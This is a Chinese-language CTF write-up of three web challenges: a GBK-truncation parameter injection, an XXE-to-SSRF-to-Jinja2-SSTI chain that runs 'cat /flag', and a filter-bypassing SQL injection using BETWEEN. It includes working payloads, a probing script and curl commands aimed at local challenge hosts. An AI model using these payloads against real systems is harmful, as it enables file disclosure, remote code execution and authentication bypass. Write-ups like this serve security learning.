



# Task 1: Legacy Parser (30%)
## 1.题目分析
- 1.我们打开代理后的地址发现，页面显示`NOT FOUND`,网页拒绝了我们的访问。
- 2.我们对源码进行分析,public_app.py 的 build_packet 做了两件事：
```
将用户输入的 value 用 GBK 编码
按 size 截断，然后拼接固定后缀 |role=user
```
- 3.漏洞：GBK 是变长编码，截断位置如果停在多字节字符的第一个字节（lead byte），紧随其后的 | (0x7C) 会被解码器认作这个 GBK 字符的第二字节，从而被"吞掉"。

- 4.利用链：

value 里预先植入 |role=admin&padding=好
`好`的 GBK 编码 \xba\xc3，size 设为截到第一个字节 \xba
拼接 |role=user 后字节序列末尾为 \xba\x7crole=user
GBK 解码时 \xba\x7c → 簗，| 被吞
文本中只剩一个 |（来自 value 内嵌的），text.count("|") == 1 
split("|") 后 metadata 为 role=admin&padding=一簗role=user
parse_qs 提取 role=admin → 返回 flag 

## 2.攻击过程
我们在burp suite中打开代理后的地址，然后在repeater中输入`GET /submit?value=啊哈|role=admin&padding=一好&size=27`,
就可以得到flag。


## 3. flag
```
flag{S13n4_m1_f3_d15f3c3m1_M4r3mm4}
```

----
# Task 2: The Hall of Everlasting Names (35%)

## 1. 题目分析

- **服务**：上传 SVG 文件，解析其中的 `<title>` 标签内容并回显。
- **源码路径**：`/app/app.py`
- **漏洞 1 — XXE（XML External Entity）**：
  - 服务使用 `lxml` 解析 XML，`load_dtd=True, resolve_entities=True`，外部实体解析已开启。
  - 在 SVG 中插入 DOCTYPE 声明和外部实体，可以读取服务器任意文件。
- **漏洞 2 — SSRF + SSTI**：
  - 通过 XXE 读取 `/app/app.py`，发现隐藏路由 `/api/s3cr3t/fetch`，它接受 `url` 参数并代理 HTTP/HTTPS 请求。
  - 源码注释中暴露了内部服务 `http://127.0.0.1:9000/_internal/render`。
  - 内部渲染服务接受 `template` 参数并直接用 Jinja2 渲染（SSTI）。
- `/flag` 文件存在但 `webuser` 用户无直接读取权限，需提权或通过内部服务访问。

## 2. 攻击过程

### Step 1: XXE 泄露源码，发现隐藏接口

构造含外部实体的 SVG：

```xml
<?xml version="1.0"?>
<!DOCTYPE svg [
  <!ENTITY xxe SYSTEM "file:///app/app.py">
]>
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
  <title>&xxe;</title>
</svg>
```

上传后回显了源码，发现两个关键信息：
- 隐藏路由 `/api/s3cr3t/fetch`（URL 参数 SSRF）
- 内部服务 `127.0.0.1:9000/_internal/render`（模板渲染）

### Step 2: SSRF 调用内部渲染服务

通过 `/api/s3cr3t/fetch` 访问内部渲染服务，发现其渲染 Jinja2 模板：

```
GET /api/s3cr3t/fetch?url=http://127.0.0.1:9000/_internal/render?template={{7*7}}
```

返回 `49`，确认 SSTI 存在。

### Step 3: SSTI → RCE 读取 /flag

注入 `os.popen('cat /flag')`：

```
GET /api/s3cr3t/fetch?url=http://127.0.0.1:9000/_internal/render?template={{config.__class__.__init__.__globals__['os'].popen('cat /flag').read()}}
```

返回 flag。

## 3. Flag

```
flag{Bl4u_flut3t_d45_M33r_d45_un3ndl1ch3}
```

----
# Task 3: Passcode++ (35%)
## 1.题目分析

- **服务**：Passcode 登录页，用户输入 passcode，服务端校验是否正确。
- **漏洞类型**：SQL 注入，绕过关键词过滤与结果检测。
- **过滤机制（三层）**：
  - **INJECTION 层**：检测 `union`、`sleep`、`admin`、`if`、`benchmark` 等关键词，命中即返回 `Injection!`。
  - **CHEATING 层**：在实际查询前单独执行一个测试 SQL（如 `SELECT 1 WHERE passcode='$input'`），如果条件为真（返回行），判定为注入并返回 `YOU ARE CHEATING!`。
  - **实际执行层**：通过前两层后，将输入拼入 `SELECT passcode FROM t WHERE passcode='$input'` 执行，然后校验结果。
- **如何绕过**：
  - CHEATING 层只检测了 `OR/||/xor/IS NULL/SOUNDS LIKE` 等关键字 + 真条件的组合，但**没有检测 `BETWEEN`**。
  - 在 MySQL 中 `=` 的优先级高于 `BETWEEN`，所以：
    ```sql
    WHERE passcode='1' BETWEEN 0 AND 1
    -- 解析为:
    WHERE (passcode='1') BETWEEN 0 AND 1
    -- (passcode='1') 返回 0 (FALSE)
    -- 0 BETWEEN 0 AND 1 → TRUE
    ```
  - `BETWEEN` 通过 CHEATING 检测（因为它不在检测列表里），且在实际查询中让 WHERE 条件为真，返回表中所有行。
  - flag 存储在数据库唯一表的唯一列中，有多条 passcode，查询返回的第一条即为 flag。

## 2. 攻击过程

###  2.1 探测过滤规则
使用 Python 脚本通过分组测试系统性地探测 INJECTION 层和 CHEATING 层的过滤规则：

```python
import urllib.request, urllib.parse

URL = "http://127.0.0.1:44576/check_code"

def send(pay):
    data = urllib.parse.urlencode({"passcode": pay}).encode()
    try:
        r = urllib.request.urlopen(urllib.request.Request(URL, data=data), timeout=5)
        return r.read().decode().strip()
    except:
        return "ERR"

tests = [
    ("' alone", "'"),
    ("1' --", "1' -- "),
    ("1' OR 1=1", "1' OR 1=1 -- "),
    ("1' OR 0", "1' OR 0 -- "),
    ("1' OR 1=2", "1' OR 1=2 -- "),
    ("1' AND 1", "1' AND 1 -- "),
    ("1' IS NOT FALSE", "1' IS NOT FALSE -- "),
    ("1' IS TRUE", "1' IS TRUE -- "),
    ("1' IS FALSE", "1' IS FALSE -- "),
    ("1' BETWEEN 0 AND 1", "1' BETWEEN 0 AND 1 -- "),
]

for desc, pay in tests:
    r = send(pay)
    if "CHEATING" in r:
        status = "CHEATING"
    elif "Injection" in r:
        status = "INJECTION"
    elif "NO NO" in r:
        status = "NO_MATCH"
    elif r == "":
        status = "SQL_ERR"
    elif "script" in r:
        status = "PASS_REQ"
    else:
        status = r[:20]
    print(f"{desc:30s} -> {status}")
```

运行结果发现 `BETWEEN` 没有被过滤且能让查询条件为真，构造最终 payload 获得 flag。


### 2.2 获得 Flag

```
curl -s http://127.0.0.1:44576/check_code -d "passcode=1' BETWEEN 0 AND 1 -- "
```


## 3. Flag

```
flag{y0z0r4_n1_h05h1_g4_m47474ku_y0u_n1}
```

